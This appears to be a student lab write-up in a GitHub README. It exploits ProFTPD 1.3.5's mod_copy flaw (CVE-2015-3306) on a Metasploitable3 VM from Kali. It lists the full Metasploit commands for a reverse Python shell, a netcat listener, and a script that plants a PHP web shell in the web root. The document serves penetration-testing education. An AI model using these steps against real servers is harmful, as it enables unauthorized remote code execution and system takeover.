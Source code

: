 
## 🔍 Step 1: Finding the IP Address of Metasploitable3

We used the `ifconfig` command inside the Metasploitable3 VM to find its IP address on the NAT network.

- **Discovered IP Address:** `10.0.2.7`

![Metasploitable3 IP Address](Screenshots/A-FindIP-Metasplot.png)


### 🔁 Step 2: Verifying Network Connectivity

Before launching any attacks, we verified that the attacker machine (Kali Linux) can reach the victim machine (Metasploitable3) using the `ping` command.

- **Target IP:** `10.0.2.7`
- **Result:** Successful ping with 0% packet loss



![Ping Test from Kali to Metasploitable](Screenshots/B-Connect.png)
### 🔎 Step 3: Scanning for Open Ports and Services

To discover vulnerable services running on the victim machine, we performed a full version scan using `nmap`:
![Metasploitable3 IP Address](Screenshots/C-FindPorts.png)


 ## 📍 Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

In this step, we exploit the vulnerable **ProFTPD 1.3.5** service running on Metasploitable3 using the `unix/ftp/proftpd_modcopy_exec` module in Metasploit. The goal is to get a **reverse shell** back to our Kali machine.

---
![Metasploitable3 IP Address](Screenshots/D-msfconsole.png)
### ✅ Summary of the Process

- **Target (Metasploitable3) IP:** `10.0.2.7`  
- **Attacker (Kali) IP:** `10.0.2.5`  
- **Vulnerable Service:** ProFTPD 1.3.5  
- **Exploit Module:** `exploit/unix/ftp/proftpd_modcopy_exec`  
- **Payload Used:** `cmd/unix/reverse_python`  
- **Writable Web Directory:** `/var/www/html`

---

### 🧰 Commands Used

```bash
# Start Metasploit
msfconsole

# Search and load the exploit module
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec

# Set RHOST and LHOST
set RHOST 10.0.2.7
set LHOST 10.0.2.5

# View available payloads and select one
show payloads
set payload cmd/unix/reverse_python

# Set the writable directory on the target
set SITEPATH /var/www/html

# (Optional) Prevent cleanup and handler issues
set AllowNoCleanup true
set DisablePayloadHandler true

# Run the exploit

exploit
```
## ✅ Step 5: Establishing a Reverse Shell to the Victim (End of Phase 1.1)






After successfully uploading the malicious PHP payload using the `mod_copy` exploit module in Metasploit, we triggered the payload by accessing it through the victim’s web server. This caused the victim (Metasploitable3) to connect back to our Kali machine, confirming a successful reverse shell.

![Metasploitable3 IP Address](Screenshots/E-VictimShell.png)
### 🔊 Listener Setup (Attacker Side)



On Kali, we opened a Netcat listener on port `4444`:

```bash
nc -lvnp 4444
## 🔹 Task 1.2 – Running the Custom Exploit Script

After manually exploiting the FTP service in Task 1.1 using Metasploit, we now move to automating the attack using a custom Python script.

### ▶️ Step: Executing the Custom Exploit Script

We ran the following command from the `/Downloads` directory:

```bash
python3 Script.py
```
![Metasploitable3 IP Address](Screenshots/F-RunningScript.png)
 What the Script Does
The script automates the exploitation of the vulnerable ProFTPD 1.3.5 service using the mod_copy module. Here's what it performs:

Generates a PHP reverse shell payload.

Exploits the FTP server to copy this payload into the Apache web root directory (/var/www/html/).

Provides a direct URL to the uploaded exploit:


### 📸 Custom Payload Execution via mod_copy (Script Proof )

After uploading the `exploit.php` file using the custom script, we leveraged the `mod_copy` vulnerability to manually **execute a command on the victim machine** by setting the `CMD` option in Metasploit.

We ran the following command to list the contents of the web root directory:

```bash
set CMD ls -l /var/www/html
run
```
![Metasploitable3 IP Address](Screenshots/G-uploadingFile.png)

#### Conclusion

-  **Reverse shell connection was successful.**
-  **Custom script worked as intended.**
-  **Payloads are visible in the victim’s `/var/www/html/` directory.**
-  **Task 1.2 is completed with solid proof.**

![Metasploitable3 IP Address](Screenshots/H-phpFilesUploaded.png)

---
### 📜 What the Custom Script Does (Step-by-Step)

---

The custom Python script automates the exploitation of the **ProFTPD 1.3.5 mod_copy vulnerability** found on Metasploitable3.

#### 🔧 Script Breakdown:

1. **Generate PHP Payload:**
   - The script creates a file named `exploit.php` that contains a **simple reverse shell** or **command execution payload**.
   - This payload allows remote commands to be executed via a web browser using:
     ```
     http://<victim-ip>/exploit.php?cmd=<command>
     ```

2. **Upload Payload using ProFTPD mod_copy:**
   - The script abuses the **`SITE CPFR`** and **`SITE CPTO`** commands of the vulnerable FTP server.
   - It copies the payload from `/tmp/exploit.php` into `/var/www/html/` on the victim server.

3. **Notify the User:**
   - It tells the attacker:
     - Where the payload was placed.
     - How to trigger it (manually visit the URL).
     - How to start a Netcat listener for a reverse shell (if using reverse shell payload).

---

### 📡 Why We Chose FTP (ProFTPD mod_copy)

---

The **FTP service (ProFTPD 1.3.5)** was selected for this project for several important reasons:



#### 🔍 Known Exploit
- The vulnerability is listed as [CVE-2015-3306], which is:
  - Easy to exploit.
  - Doesn't require credentials if anonymous access is allowed.
  - Works reliably on Metasploitable3.
